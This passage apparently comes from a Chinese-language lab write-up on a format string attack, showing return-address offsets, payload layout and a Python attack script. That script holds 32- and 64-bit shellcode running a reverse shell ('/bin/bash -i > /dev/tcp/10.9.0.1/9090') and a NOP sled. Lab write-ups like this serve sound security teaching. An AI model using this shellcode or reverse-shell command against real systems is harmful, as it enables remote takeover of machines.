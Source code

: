 ```
ret1=0x7fffffffe488 # ret_myprint
ret2=0x7fffffffe48a # ret_myprint + 2 
ret3=0x7fffffffe48c # ret_myprint + 4
```

计算偏移

从前面可知，到buffer的偏移为34，由于fmt字符串有41个字节，因此要从8的整数倍开始填充地址，也即是第48个字节

![](https://cdn.jsdelivr.net/gh/LaPhilosophie/image/img/image-20230330223149351.png)

```
# from 6th 
fmt[48:56] = (s3_addr).to_bytes(8, byteorder='little')
fmt[56:64] = (s1_addr).to_bytes(8, byteorder='little')
fmt[64:72] = (s2_addr).to_bytes(8, byteorder='little')
```

运行攻击脚本

```python 
#!/usr/bin/python3
import sys

# 32-bit Generic Shellcode 
shellcode_32 = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
 #  "/bin/ls -l; echo '===== Success! ======'                  *"
    "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1           *" 
 "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')


# 64-bit Generic Shellcode 
shellcode_64 = (
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1           *"
   #  "/bin/ls -l; echo '===== Success! ======'                  *"
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

N = 1500
# Fill the content with NOP's
content = bytearray(0x90 for i in range(N))

# Choose the shellcode version based on your target
shellcode = shellcode_64

buf=0x00007fffffffe540
```